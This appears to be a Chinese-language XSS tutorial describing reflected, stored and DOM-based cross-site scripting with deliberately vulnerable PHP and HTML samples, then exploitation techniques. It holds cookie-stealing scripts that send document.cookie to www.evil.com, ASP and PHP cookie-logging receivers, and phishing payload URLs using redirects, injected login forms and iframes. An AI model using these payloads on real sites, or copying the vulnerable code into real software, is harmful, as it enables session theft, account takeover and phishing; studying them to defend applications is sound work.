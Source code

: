XSS 跨站脚本攻击
================

XSS 简介
--------

跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 Web
应用程序中的计算机安全漏洞，是由于 Web
应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取
Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

反射型 XSS
~~~~~~~~~~

反射型跨站脚本（Reflected Cross-Site
Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL
地址的参数中。

反射型 XSS
的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的
URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类
XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies
或进行钓鱼欺骗。

服务器端代码：

.. code:: php

    <?php 
    // Is there any input? 
    if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
        // Feedback for end user 
        echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
    } 
    ?>

可以看到，代码直接引用了 ``name``
参数，并没有做任何的过滤和检查，存在明显的 XSS 漏洞。

持久型 XSS
~~~~~~~~~~

持久型跨站脚本（Persistent Cross-Site
Scripting）也等同于存储型跨站脚本（Stored Cross-Site Scripting）。

此类 XSS 不需要用户单击特定 URL
就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型
XSS
一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

服务器端代码：

.. code:: php

    <?php
      if( isset( $_POST[ 'btnSign' ] ) ) {
        // Get input
        $message = trim( $_POST[ 'mtxMessage' ] );
        $name    = trim( $_POST[ 'txtName' ] );
        // Sanitize message input
        $message = stripslashes( $message );
        $message = mysql_real_escape_string( $message );
        // Sanitize name input
        $name = mysql_real_escape_string( $name );
        // Update database
        $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
        $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
        //mysql_close(); }
    ?>

代码只对一些空白符、特殊符号、反斜杠进行了删除或转义，没有做 XSS
的过滤和检查，且存储在数据库中，明显存在存储型 XSS 漏洞。

DOM XSS
~~~~~~~

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM
文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端
JavaScript 可以访问浏览器的 DOM
文本对象模型，因此能够决定用于加载当前页面的
URL。换句话说，客户端的脚本程序可以通过 DOM
动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM
中的数据（如从 URL
中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM
中的一些对象，例如 URL、location
等。用户在客户端输入的数据如果包含了恶意 JavaScript
脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM
的 XSS 攻击。

HTML 代码：

.. code:: html

    <html>
      <head>
        <title>DOM-XSS test</title>
      </head>
      <body>
        <script>
          var a=document.URL;
          document.write(a.substring(a.indexOf("a=")+2,a.length));
        </script>
      </body>
    </html>

将代码保存在 domXSS.html 中，浏览器访问：

::

    http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>

即可出发 XSS 漏洞。

XSS 利用方式
------------

Cookies 窃取
~~~~~~~~~~~~

攻击者可以使用以下代码获取客户端的 Cookies 信息：

.. code:: html

    <script>
    document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
    new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
    </script>
    <img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>

在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：

.. code:: asp

    <%
      msg=Request.ServerVariables("QUERY_STRING")
      testfile=Server.MapPath("cookie.txt")
      set fs=server.CreateObject("Scripting.filesystemobject")
      set thisfile=fs.OpenTextFile(testfile,8,True,0)
      thisfile.Writeline(""&msg& "")
      thisfile.close
      set fs=nothing
    %>

.. code:: php

    <?php
    $cookie = $_GET['cookie'];
    $log = fopen("cookie.txt", "a");
    fwrite($log, $cookie . "\n");
    fclose($log);
    ?>

攻击者在获取到 Cookies 之后，通过修改本机浏览器的
Cookies，即可登录受害者的账户。

会话劫持
~~~~~~~~

由于使用 Cookies
存在一定的安全缺陷，因此，开发者开始使用一些更为安全的认证方式，如
Session。在 Session
机制中，客户端和服务端通过标识符来识别用户身份和维持会话，但这个标识符也有被其他人利用的可能。会话劫持的本质是在攻击中带上了
Cookies 并发送到了服务端。

如某 CMS 的留言系统存在一个存储型 XSS 漏洞，攻击者把 XSS
代码写进留言信息中，当管理员登录后台并查看是，便会触发 XSS 漏洞，由于
XSS 是在后台触发的，所以攻击的对象是管理员，通过注入 JavaScript
代码，攻击者便可以劫持管理员会话执行某些操作，从而达到提升权限的目的。

比如，攻击者想利用 XSS
添加一个管理员账号，只需要通过之前的代码审计或其他方式，截取到添加管理员账号时的
HTTP 请求信息，然后使用 XMLHTTP 对象在后台发送一个 HTTP
请求即可，由于请求带上了被攻击者的
Cookies，并一同发送到服务端，即可实现添加一个管理员账户的操作。

钓鱼
~~~~

-  重定向钓鱼

把当前页面重定向到一个钓鱼页面。

``http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>``

-  HTML 注入式钓鱼

使用 XSS 漏洞注入 HTML 或 JavaScript 代码到页面中。

``http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password:<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/></form></div></body></html>``

该段代码会在正常页面中嵌入一个 Form 表单。

-  iframe 钓鱼

这种方式是通过 ``<iframe>`` 标签嵌入远程域的一个页面实施钓鱼。

``http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>``

-  Flash 钓鱼

将构造好的 Flash
文件传入服务器，在目标网站用\ ``<object>``\ 或\ ``<embed>``\ 标签引用即可。

-  高级钓鱼技术

注入代码劫持 HTML 表单、使用 JavaScript 编写键盘记录器等。

网页挂马
~~~~~~~~

一般都是通过篡改网页的方式来实现的，如在 XSS
中使用\ ``<iframe>``\ 标签。

DOS 与 DDOS
~~~~~~~~~~~

注入恶意 JavaScript 代码，可能会引起一些拒绝服务攻击。

XSS 蠕虫
~~~~~~~~

通过精心构造的 XSS
代码，可以实现非法转账、篡改信息、删除文章、自我复制等诸多功能。
